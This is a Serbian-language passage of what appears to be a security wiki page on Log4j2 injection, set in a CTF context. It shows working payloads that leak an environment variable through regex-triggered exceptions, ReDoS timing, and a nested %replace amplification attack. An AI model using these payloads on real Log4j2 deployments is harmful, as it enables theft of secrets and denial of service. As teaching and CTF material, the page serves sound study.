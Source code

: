 ![](<../../.gitbook/assets/image (3) (2) (1) (1).png>)

Ovo nije bilo korisno za eksfiltraciju datuma unutar poruke o grešci, jer pre konverzionog šablona nije rešeno pretraživanje, ali može biti korisno za druge stvari kao što je otkrivanje.

### Konverzioni Šabloni Regexi

Međutim, moguće je koristiti neke **konverzione šablone koji podržavaju regexe** za eksfiltraciju informacija iz pretrage korišćenjem regexa i zloupotrebe **binarnog pretraživanja** ili **baziranih na vremenu** ponašanja.

* **Binarno pretraživanje putem poruka o izuzecima**

Konverzioni šablon **`%replace`** može se koristiti za **zamenu** **sadržaja** iz **stringa** čak i korišćenjem **regexa**. Funkcioniše ovako: `replace{pattern}{regex}{substitution}`\
Zloupotrebom ovog ponašanja mogli biste napraviti zamenu **okidačem izuzetka ako regex odgovara** bilo čemu unutar stringa (i bez izuzetka ako nije pronađeno) na ovaj način:

```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```

* **Vremenski bazirano**

Kao što je pomenuto u prethodnom odeljku, **`%replace`** podržava **regexe**. Dakle, moguće je koristiti payload sa [**ReDoS stranice**](../regular-expression-denial-of-service-redos.md) kako bi se izazvao **timeout** u slučaju pronalaska zastave. Na primer, payload poput `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` bi izazvao **timeout** u tom CTF-u.

U ovom [**writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), umesto korišćenja ReDoS napada, korišćen je **amplifikacioni napad** kako bi se izazvala razlika u vremenu odgovora:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>
> Ako zastava počinje sa `flagGuess`, cela zastava će biti zamenjena sa 29 `#`-ova (koristio sam ovaj karakter jer verovatno neće biti deo zastave). **Svaki od rezultirajućih 29 `#`-ova zatim je zamenjen sa 54 `#`-a**. Ovaj proces se ponavlja **6 puta**, što dovodi do ukupno ` 29*54*54^6* =`` `` `**`96816014208`** **`#`-ova!**
>
> Zamena toliko `#`-ova će izazvati 10-sekundni timeout Flask aplikacije, što će rezultirati slanjem HTTP status koda 500 korisniku. (Ako zastava ne počinje sa `flagGuess`, dobićemo status kod koji nije 500)